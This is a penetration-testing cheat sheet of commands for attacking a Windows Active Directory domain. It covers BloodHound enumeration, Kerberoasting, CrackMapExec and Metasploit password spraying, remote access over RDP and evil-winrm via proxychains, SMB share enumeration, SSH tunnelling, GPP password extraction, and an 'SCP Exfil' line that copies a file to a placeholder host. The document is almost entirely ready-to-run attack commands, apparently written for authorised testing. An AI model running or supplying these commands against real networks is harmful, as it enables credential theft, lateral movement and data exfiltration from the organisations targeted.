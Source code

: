 Bloodhound From Kali
---------------------------------------------------------------
`sudo pip3 install bloodhound`  

`bloodhound-python -u adusername -d domain.corp -v -c dconly -ns x.x.x.x`  
`bloodhound-python -u adusername -d domain.corp -v -c all -ns x.x.x.x`

Kerberoast SPNS
---------------------------------------------------------------
`python3 GetUserSPNS.py -request domain.corp/adusername -dc-ip x.x.x.x`

CrackMapExec
---------------------------------------------------------------
Check for smb access  
`cme smb -u username -p Welcome1 --shares final.txt --continue-on-success`

Password spray against user list  
`cme smb -u usernamesonly.txt -p Welcome1 -d domain.corp  x.x.x.x(target) --continue-on-success`

Grab user list  
`python3 /usr/share/doc/python3-impacket/examples/GetADUsers.py -all domain.corp/aduser -dc-ip x.x.x.x`

Metasploit Password Spray SMB
---------------------------------------------------------------
`use auxiliary/scanner/smb/smb_login` 

RDP (simple) 
---------------------------------------------------------------
`proxychains-ng xfreerdp /v:x.x.x.x /u:username /d:domain.corp /p:Welcome1`

RDP (Clipboard, mounted tsclient) 
---------------------------------------------------------------
`proxychains-ng xfreerdp +clipboard /v:x.x.x.x /u:username /d:domain.local /drive:tsclient,/path/to/mounted/folder/` 

Evil-winrm
---------------------------------------------------------------
`proxychains-ng evil-winrm -i x.x.x.x -u username -p 'Welcome1'`

SCP Exfil
---------------------------------------------------------------
`scp SuperSecretDummyExfil.xlsx username@x.x.x.x:/home/pentesting`

Database CommandLine Access SQSH
---------------------------------------------------------------
`proxychains-ng sqsh -S x.x.x.x -U sa -P Welcome1`

Access SMB Share
---------------------------------------------------------------
Check for null session  
`echo exit | smbclient -L \\\\$line`

Connect and explore through smbclient  
`smbclient //x.x.x.x/share`  

Mount open share locally  
`sudo mount //x.x.x.x/share /mnt/share`

Proxychains ssh
---------------------------------------------------------------
`ssh -L 7777:localhost:7777 username@hostname.com`  
`ssh -ND 7777 username@localhost`

Invoke Share Finder
---------------------------------------------------------------
`Invoke-ShareFinder -CheckShareAccess -ExcludeStandard -ExcludePrint -ExcludeIPC -Verbose | Out-File -Encoding ASCII shareaccess.txt`  

`Get-GPPPassword | Out-File -Encoding ASCII gpp.txt`  
